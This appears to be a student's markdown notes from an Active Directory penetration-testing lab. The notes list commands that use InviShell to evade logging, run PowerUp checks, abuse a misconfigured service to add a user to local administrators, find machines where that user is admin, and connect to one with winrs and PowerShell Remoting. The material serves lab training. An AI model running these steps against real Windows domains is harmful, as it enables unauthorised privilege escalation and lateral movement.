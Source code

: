 **Local Admin**
==Check priv escalation path==
```
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
. C:\AD\Tools\PowerUp.ps1
Invoke-AllChecks
```
We can then use Service Abuse to add the user to the administrator group
```
Invoke-ServiceAbuse -Name 'AbyssWebServer' -UserName 'dcorp\studentx' -Verbose
```
Log off and login back to see if you can run stuff as administrator

---
==Check if the added user has admin access to any other machines in the domain==
```
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
. C:\AD\Tools\Find-PSRemotingLocalAdminAccess.ps1
Find-PSRemotingLocalAdminAccess
```
You will see what machines you can admins access to !

Then we can connect to ==***dcorp-adminsrv***== using winrs as the student user
```
winrs -r:dcorp-adminsrv cmd
set username
set computername
```
We can also use PowerShell Remoting:
```
Enter-PSSession -ComputerName dcorp-adminsrv.dollarcorp.moneycorp.local
$env:username
```
---

